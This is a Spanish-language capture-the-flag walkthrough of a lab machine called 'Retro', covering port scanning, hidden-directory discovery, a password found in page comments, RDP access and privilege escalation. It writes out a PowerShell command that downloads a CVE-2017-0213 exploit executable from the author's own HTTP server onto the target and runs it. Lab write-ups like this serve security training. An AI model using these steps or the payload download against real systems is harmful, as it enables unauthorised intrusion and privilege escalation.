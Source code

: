 # Retro  

## Escaneo de puertos  

```bash
nmap -Pn 10.10.125.255
```  

-Pn: se salta el primer ping  

![Escaneo de puertos](1.png)  

## Encontramos directorios ocultos  

Utilizamos la herramienta dirbuster y en el servicio web escaneamos las diferentes salidas que puede tener y encontramos lo siguiente:  

![Directorios ocultos](2.png)  

Entramos en el directorio de `/retro` y nos encontramos la siguiente web:  

![Página web](3.png)  

## Búsqueda de credenciales  

Mirando por la página, vemos que hay un usuario llamado `Wade`, creador del foro. En los comentarios de la página, encontramos que su contraseña es `parzival`.  

![Usuario Wade](4.png)  
![Contraseña en comentarios](5.png)  

## Remmina  

Con la herramienta Remmina intentamos conectarnos al PC del usuario con las credenciales anteriores. Una vez conectados, vemos en el escritorio un archivo llamado `user.txt`, que contiene la primera flag.  

![Conexión Remmina](6.png)  

Abrimos la terminal para comprobar si estamos como root o usuario. Vemos que estamos como usuario Wade.  

![Usuario Wade en terminal](7.png)  

## Escalada de privilegios  

Descargamos el archivo `CVE-2017-0213_x64.zip`, lo descomprimimos y obtenemos un `.exe`. Luego montamos un servidor Python con el siguiente comando:  

```bash
python -m http.server 80
```  

En Remmina, abrimos PowerShell y ejecutamos:  

```bash
Invoke-WebRequest -Uri http://10.23.40.179/CVE-2017-0213_x64.exe -OutFile C:\Users\Wade\Desktop\exploit.exe
```  

![Descarga del exploit](8.png)  

Esto coloca un `.exe` en el escritorio que, al ejecutarlo, escala los privilegios automáticamente.  

![Escalada de privilegios](9.png)  

Una vez en Admin, revisamos el escritorio del Administrador para encontrar la flag en el archivo `root.txt.txt`.
